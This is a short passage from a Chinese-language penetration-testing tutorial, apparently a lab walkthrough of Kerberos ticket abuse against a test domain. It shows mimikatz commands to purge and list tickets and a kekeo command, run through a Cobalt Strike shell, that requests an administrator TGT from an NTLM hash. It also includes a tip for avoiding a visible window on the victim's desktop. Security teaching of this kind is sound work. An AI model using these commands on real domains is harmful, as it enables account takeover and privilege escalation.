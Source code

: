 ### 4.5.2. 清空票据

还是为了防止出现其它问题。

```
mimikatz kerberos::purge 清除凭证
mimikatz kerberos::list 查看当前凭证
```

![image-20230717131840254](assets/KO7lUGfnw2BqhF8.png)

### 4.5.3. 生成票据

这里我发现，好像kekeo好像是有验证，使用域用户账号和域控主机的hash值，好像无法生成这个验证。需要对应起来。同时我测试了，由于你是上传kekeo到目标靶机上的，同时kekeo是需要进入操作，如果你不添加一个exit退出，那么就会在对方桌面上留存一个黑框框，同时你的cs会一直返回大量无用信息。

```
shell kekeo.exe "tgt::ask /user:administrator /domain:yuto.com /ntlm:579da618cfbfa85247acf1f800a280a4" "exit"
```

![image-20230717132952961](assets/Hq4Wc7MAVjduJxz.png)

